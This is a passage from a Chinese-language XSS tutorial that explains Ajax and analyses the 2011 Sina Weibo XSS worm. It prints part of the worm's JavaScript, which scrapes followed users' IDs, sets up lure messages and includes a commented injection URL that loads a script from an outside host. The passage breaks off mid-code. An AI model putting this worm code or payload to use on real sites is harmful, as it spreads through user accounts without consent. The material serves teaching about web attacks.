 Ajax 中的核心技术就是 XMLHttpRequest, 它允许 JavaScript 脚本与服务器进行通信, 在不刷新页面的情况下, 向服务器发送请求或是接收服务器的响应数据

下面以之前影响比较大的新浪微博 XSS 蠕虫攻击事件为例, 介绍 Ajax 技术在 XSS 蠕虫中的应用, 从攻击代码来详细讲解

![xss-22](./img/xss-22.png)

2011 年 6 月 28 日, 新浪微博遭受 XSS 蠕虫的攻击, 很多受害者被迫发布带有攻击链接的私信和微博, 这些消息都带有一定的诱惑性, 其他用户点击后也会此影响, 受害者在感染后, 都会自动关注一位名为 "hellosamy" 的微博用户(估计是效仿 Samy 蠕虫), 然后向关注受害者的用户发送含有同样链接地址的私信, 并发布含攻击链接的微博, 得益于这种传播方式, 在 16 分钟内病毒就感染了 33000 个用户

来分析下新浪微博的 XSS 蠕虫代码

```javascript
// 创建 XMLHttp 对象用于收发请求
function createXHR() {
  return window.XMLHttpRequest
    ? new XMLHttpRequest()
    : new ActiveXObject("Microsoft.XMLHTTP");
}
function getappkey(url) {
  xmlHttp = createXHR();
  xmlHttp.open("GET", url, false); //获取 AppKey 不采用异步执行,等待请求返回
  xmlHttp.send();
  result = xmlHttp.responseText;
  id_arr = "";
  // 正则匹配出 AppKey 数组,包含每个被收听用户的 uid
  id = result.match(/namecard=\"true\" title=\"[^\"]*/g);
  //beefproject.com/
  https: for (i = 0; i < id.length; i++) {
    sum = id[i].toString().split('"')[3]; //重新提取整理
    id_arr += sum + "||";
  }
  return id_arr;
}
function random_msg() {
  // 使用短地址服务，构造 XSS 传播连接，隐藏自己的恶意 js 脚本，
  // 这里正是 XSS 漏洞的触发位置
  //http://weibo.com/pub/star/g/xyyyd%22%3E%3Cscript%20src=//www.2kt.cn/images/t.js%3E%3C/script%3E?type=upd
  link = " http://163.fm/PxZHoxn?id=" + new Date().getTime();
  // 话题列表
  var msgs = [
    "郭美美事件的一些未注意到的细节：",
    "建党大业中穿帮的地方：",
    "让女人心动的 100 句诗歌：",
```